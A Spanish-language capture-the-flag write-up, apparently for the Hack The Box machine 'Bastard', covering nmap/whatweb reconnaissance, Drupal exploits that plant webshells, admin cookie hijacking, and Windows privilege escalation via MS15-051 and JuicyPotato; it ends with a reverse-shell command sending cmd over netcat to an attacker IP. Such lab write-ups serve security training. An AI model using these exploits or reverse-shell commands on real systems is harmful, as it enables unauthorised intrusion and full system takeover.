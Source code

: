 -------
- Tags: #windows #juicypotato #drupal #sherlock #invokepowershell #kernel-exploitation 
-------
## Técnicas utilizadas
- Drupal Enumeration  
- Drupal 7.X Module Services - Remote Code Execution [SQL Injection]  
- Drupal Admin Cookie Hijacking  
- Drupal < 7.58 / < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalgeddon2' Remote Code Execution  
- SA-CORE-2018-004 - 'Drupalgeddon3' Remote Code Execution  
- Sherlock Enumeration (Privilege Escalation)  
- MS15-051-KB3045171 - Kernel Exploitation [Way 1]  
- Abusing SeImpersonatePrivilege [Way 2]
## Procedimiento

![[Pasted image 20230711132355.png]]

#### Reconocimiento
SI lanzamos un **nmap** sobre la maquina victima, podemos ver los siguientes puertos expuestos:
```ruby
# nmap -sCV -p80,135,49154 10.10.10.9 -oN Ports
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-12 20:26 MST
Nmap scan report for 10.10.10.9
Host is up (0.17s latency).

PORT      STATE SERVICE VERSION
80/tcp    open  http    Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-generator: Drupal 7 (http://drupal.org)
|_http-server-header: Microsoft-IIS/7.5
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt
|_http-title: Welcome to Bastard | Bastard
135/tcp   open  msrpc   Microsoft Windows RPC
49154/tcp open  msrpc   Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 71.09 seconds
```

Un escaneo sobre las tecnologías web con **whatweb** nos muestra esto:
```ruby
# whatweb 10.10.10.9
http://10.10.10.9 [200 OK] Content-Language[en], Country[RESERVED][ZZ], Drupal, HTTPServer[Microsoft-IIS/7.5], IP[10.10.10.9], JQuery, MetaGenerator[Drupal 7 (http://drupal.org)], Microsoft-IIS[7.5], PHP[5.3.28,], PasswordField[pass], Script[text/javascript], Title[Welcome to Bastard | Bastard], UncommonHeaders[x-content-type-options,x-generator], X-Frame-Options[SAMEORIGIN], X-Powered-By[PHP/5.3.28, ASP.NET]
```

--------
#### Drupal Enumeration  
Al visitar la pagina de primeras podemos observar que se trata de un gestor de contenido llamado **drupal**, segun **google**:

	Drupal es un sistema de gestión de contenidos o CMS libre, ​ modular, multipropósito y muy configurable que permite publicar artículos, imágenes, archivos y que también ofrece la posibilidad de otros servicios añadidos como foros, encuestas, votaciones, blogs, administración de usuarios y permisos.

Si buscamos por google por credenciales por defecto vemos `admin:admin` pero no funciona. **nmap** nos descubrio un **CHANGELOG.txt** anteriormente, si visitamos la ruta del archivo visualizamos la versión que esta actuamente en uso y podemos darnos alguna idea de vectores de ataque:
![[Pasted image 20230712202941.png]]

-------------
#### Drupal 7.X Module Services - Remote Code Execution [SQL Injection] 
Si buscamos con searchsploit por exploits para la versión que se esta usando actualmente, vemos demasiados:
![[Pasted image 20230712203251.png]]

Vamos a trarnos al directorio actual de trabajo la primera opcion que nos indica un **Remote Code Execution**. Hacemos algunas modificaciones al script ( cambiamos la url y el rest_point ), podemos cambiar el nombre del archivo que se subira y tambien el contenido que este tendra:
![[Pasted image 20230712203317.png]]

Lo ejecutamos y nos subira una **webshell** la cual podemos utilizar para ejecutar comandos en la maquina victima.

-------
#### Drupal Admin Cookie Hijacking
El exploit que ejecutamos anteriormente también nos crea un archivo de nombre **sessions.json** que contiene las **cookies** correspondientes a las del usuario administrador:
![[Pasted image 20230712203712.png]]

Si suplantamos las **cookies** en el navegador y recargarmos podemos observar que estamos como un usuario con privilegios maximos.

----------
#### Drupal < 7.58 / < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalgeddon2' Remote Code Execution  
Dejando el lado el anterior exploit, también tenemos a nuestra disposición un exploit escrito en **ruby**
![[Pasted image 20230713123147.png]]

Este exploit hace lo mismo que el anterior, basicamente sube una **webshell** la cual nos permite ejecutar comandos.

-------
#### SA-CORE-2018-004 - 'Drupalgeddon3' Remote Code Execution  
Por otro lado, tenemos otro exploit de la misma indole escrito en **python3** y es del repositorio de [oways](https://github.com/oways). Es otra herramienta de boton gordo que con simplemente ejecutarlo y pasarle los argumentos correspondientes nos sube una **webshell** con la cual podemos ejecutar comandos.

--------
#### Sherlock Enumeration (Privilege Escalation) 
Descargarmos el repositorio del [nishang](https://github.com/samratashok/nishang) para entablarnos una reverse shell con **Power Shell**. Una vez dentro, podemos tirar algunas herramientas para inspeccinar algunas de las maneras para escalar privlegios, anteriormente habiamos usado **Winpeas** ( en algunas maquinas como la [[Most Important - Control|Control]] ) y también **powerUp.ps1** ( en la mauqina [[Most Important - Querier|Querier]] ) pero esta vez usaremos **Sherlock.ps1** del repositorio de [rasta-mouse](https://github.com/rasta-mouse). Lanzamos la funcion que analiza todas las vulnerabilidades y encontramos lo siguiente:
```
Image Vuln List Sherlock.ps1
```

--------------
#### MS15-051-KB3045171 - Kernel Exploitation [Way 1]  
Vemos que es vulnerable en **MS15-051** si buscamos en google por algun exploit, nos aparece un [binario](https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS15-051/README.md) compilado para explotar esta vulnerabilidad. El uso del binario seria el siguiente:
```
c:\> MS15-051.exe whoami
```

Ahora podemos simplemente subir el **netcat** a la maquina y enviarnos una reverse shell a nuestra maquina.

------------
#### Abusing SeImpersonatePrivilege [Way 2]
Podemos tirar tambien de **JuicyPotato.exe** del repositorio de [ohpe](https://github.com/ohpe). Lo subimos a la maquina y ejecutamos:
```
.\JuicyPotato.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c C:\Windows\Temp\nc.exe -e cmd 10.10.10.10 443'"
```